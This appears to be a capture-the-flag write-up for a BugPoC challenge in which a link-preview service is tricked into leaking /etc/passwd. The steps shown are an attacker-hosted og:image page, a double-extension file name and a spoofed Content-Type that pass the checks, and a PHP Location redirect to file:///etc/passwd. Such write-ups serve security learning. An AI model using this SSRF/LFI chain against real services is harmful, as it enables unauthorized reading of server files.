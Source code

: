 # BUGPOC LFI Challenge

### We are given a website [Social Media Sharer](http://social.buggywebsite.com/) and We need to leak **etc/passwd**
  
  ![Social media sharer](1.png)
  
We can write and share posts via social accounts mentioned below
  
After looking into source code there is a javascript file with some functions and some checks.
 
The main function here is **processUrl()**.
 
```js
function processUrl(e) {
    requestTime = Date.now(),
    url = "https://api.buggywebsite.com/website-preview";
    var t = new XMLHttpRequest;
    t.onreadystatechange = function() {
        4 == t.readyState && 200 == t.status ? (response = JSON.parse(t.responseText),
        populateWebsitePreview(response)) : 4 == t.readyState && 200 != t.status && (console.log(t.responseText),
        document.getElementById("website-preview").style.display = "none")
    }
    ,
    t.open("POST", url, !0),
    t.setRequestHeader("Content-Type", "application/json; charset=UTF-8"),
    t.setRequestHeader("Accept", "application/json"),
    data = {
        url: e,
        requestTime: requestTime
    },
    t.send(JSON.stringify(data))
}
```
 
It takes url and makes a post.And then it calls **populateWebsitePreview()** function to fetch the og:image and its tags from the url and loads it in **imgData** .

 ![og:mage](2.png)

I crafted a html with meta tag og:image in my php server 

```html
<html>
<head>

	<meta property="og:image" content="/test.png">

</head>
</html>

```
Placed the ngrok link ,and observe the response there is base64 encoded data of our image file (test.png) .And we also see the incomming requests from the server to our local server.
Well we understand the functionality.It makes request to specified url/value which we place in the content of og:image 

If we place other than (jpg|png|svg) files in content we get an error `Image Preview Error: Invalid Image URL`

Lets see what checking this ..

### Checks and Bypass :

**Check 1**
- When we place content with image extensions , we getting a **HEAD** requestthen **GET** request which fetches the image ,If we provide any extensions other than (jpg|png|svg) we didn't get any HEAD request .
- So the server checking the extension we placing, We can bypass this by providing **double extensions** like **test.svg.php**

**index.php**
```html
<html>
<head>

		<meta property="og:image" content="myserver/test.svg.php">

</head>
</html>


```

**Check 2**
- I created a php file with named `test.svg.php` and placed it in my local server and placed the link in content of og:image andthe server returns 
`Image Failed HEAD Test`
- By this error we know there is a check for HEAD method , if we see what is [HEAD request method](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/HEAD)
  it only return Headers not reponse body .
- By observing the Incomming HEAD requests for Valid file , we see that it has a **Content-type** for successful request .
- So added **Content-Type: image/svg+xml** in the `test.svg.php`.We got no error there , so it happened , we bypassed HEAD check
```php
<?php

	header("Content-Type: image/svg+xml");

?>
	
```
**LFI**

If we observe clearly we have a **GET** request after the HEAD request to fetch the image content ,so if we redirect the GET request of the image` to file:///etc/passwd` it fetches the etc/passwd content.

So added a **Location** header to `file://etc/passwd` in the above php file.


**test.svg.php**

```php
<?php

	header("Content-Type: image/svg+xml");
	header('Location: file:///etc/passwd');

?>
	
```


place the ngrok link and see the response.

Guess what, :boom: It worked and  we leaked the etc/passwd

![etc/passwd](3.png)





Thanks for Reading :innocent:

